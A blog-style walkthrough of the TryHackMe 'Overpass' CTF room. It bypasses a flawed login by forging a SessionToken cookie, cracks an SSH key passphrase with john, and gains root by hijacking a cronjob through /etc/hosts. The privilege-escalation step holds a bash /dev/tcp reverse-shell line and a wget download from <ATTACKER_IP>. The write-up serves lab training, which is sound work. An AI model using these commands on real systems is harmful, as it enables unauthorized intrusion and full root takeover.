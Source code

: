 ```yaml
---
title: "Quick and Easy Overpass CTF TryHackMe Walkthrough"
datePublished: Sun Aug 27 2023 19:39:01 GMT+0000 (Coordinated Universal Time)
cuid: clltut44q000108me29mp7b19
slug: overpass-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1693165092565/adce55a8-cad4-4477-9451-58f77916f985.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1693165130968/058194b8-6c57-491e-8c3d-81a900397f31.png
tags: javascript, learning, hacking, ctf, 2articles1week

---
```


This walkthrough covers the [Overpass](https://tryhackme.com/room/overpass) CTF found on [TryHackMe](https://tryhackme.com). This room aims to exploit a vulnerable web application through a flawed authentication measure, obtain an initial foothold using exposed SSH keys, and then escalate privileges to root by injecting a reverse shell into a cronjob with poorly managed permissions.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693151396473/db4e3302-2a8f-4e91-87b0-ccd63a41788c.png align="center")

### Step 1: Nmap Scan

As always, we'll begin our penetration test by enumerating the network to identify running services.

```bash
sudo nmap -sV -p- -T4 -Pn 10.10.62.26 --disable-arp-ping --max-retries=0
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162687231/1e4a9cb9-8600-4e3b-a2c8-a34498b8f58c.png align="center")

Let's examine and see what we can obtain from the web server using `ffuf`.

### Step 2: Web Enumeration

```bash
sudo ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://10.10.62.26/FUZZ -t 10
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162777077/d6c2e40e-d6e2-4dad-a782-03c0cb200667.png align="center")

### Step 3: Initial Foothold

The `/admin` directory appears promising. Let's navigate to it and explore what we can do with it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162827321/33d4cb35-5eb5-4cc2-857f-10597d6dbe5c.png align="center")

Upon examining the source code, we discover a JavaScript file named `login.js`.

```javascript
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This script contains a vulnerability listed in the `OWASP Top 10`, known as `Broken Authentication`.

```javascript
    } else { 
        Cookies.set("SessionToken",statusOrCookie) 
        window.location = "/admin" 
    }
}
```

Using `Developer Tools (F12)` and navigating to `Storage` (in Firefox), we can add a new item and create a `SessionToken` with a value of "`admin`" inside it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163060518/c3ca7113-622d-4295-a8c3-2c8fc193a9a7.png align="center")

This enables us to circumvent the login necessity. After gaining access, we came across an `SSH` key belonging to a user named `James`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163115324/4f12413f-3207-4136-89a8-f271cbc276ea.png align="center")

We can use `ssh2john` and `john-the-ripper` to crack the passphrase for this.

Save the `SSH` key in a file named `id_rsa`, and then execute the following commands:

```bash
python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Then run `john`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163364720/a6704e43-c596-4a14-b20e-2f4cc9119d6f.jpeg align="center")

Set the permissions for the `id_rsa` file.

```bash
chmod 600 id_rsa
```

Log in to the target.

```bash
ssh -i id_rsa james@<TARGET_IP>
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163459398/1b740587-69f5-4bcc-a530-7f916b65f135.png align="center")

Grab the `user.txt` flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163488021/242cc56c-2e25-4a22-8bd0-1ef7fe8e5882.jpeg align="center")

### Step 4: Privesc and Root

Begin by starting an HTTP server to transfer `linPEAS`, which will help enumerate the system for potential privilege escalation vectors.

```bash
python3 -m http.server 1337
```

Download `linPEAS` to the victim.

```bash
wget http://<ATTACKER_IP>/linpeas_linux_amd64
```

Make it executable.

```bash
chmod +x linpeas_linux_amd64
```

Run it.

```bash
./linpeas_linux_amd64
```

Upon analyzing the results, we discovered a vulnerability in the cron jobs.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163689197/09cbd9e9-ecba-44d1-b0c0-8b868d5b2844.png align="center")

Every minute, precisely on the minute, a request is sent to fetch `buildscript.sh` as root. However, this file has write access for regular users, which allows us to modify it with a reverse shell.

First, we want to modify `/etc/hosts` and change `overpass.thm` to our IP address.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163843395/1b595f21-c2f4-4d56-9a7a-34639c38b19c.png align="center")

The method for escalating privileges here involves altering the IP address of `overpass.thm` to our own and creating a `/downloads/src` directory on our system with a modified `buildscript.sh` file that incorporates a reverse shell for the scheduled task to retrieve.

Create the reverse shell:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/1338 0>&1"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163978286/a3abfc07-0643-4b9a-aff8-85b1a0b38e2e.png align="center")

Then, run an HTTP server from the root directory using the command:

```bash
python3 -m http.server 80
```

After a minute, it will pull the `buildscript.sh` file we created and connect back to our netcat listener on port 1338.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164132669/92cba98b-36c8-44d1-a86c-04fa45651f2d.png align="center")

And that's it! Once we gain access, we can obtain the `root.txt` flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164176186/9d40e82b-5889-45e9-9c8d-ddc72c34f459.jpeg align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164179848/0c6ab381-a061-4b1d-b786-310466b793ed.png align="center")

### Summary

> In this walkthrough, we will exploit a vulnerable web application on TryHackMe's Overpass CTF by bypassing a flawed authentication measure, obtaining an initial foothold using exposed SSH keys, and escalating privileges to root through a reverse shell injected into a cronjob with poorly managed permissions. The steps include an Nmap scan, using ffuf for network enumeration, gaining initial access, and escalating privileges to obtain the root flag.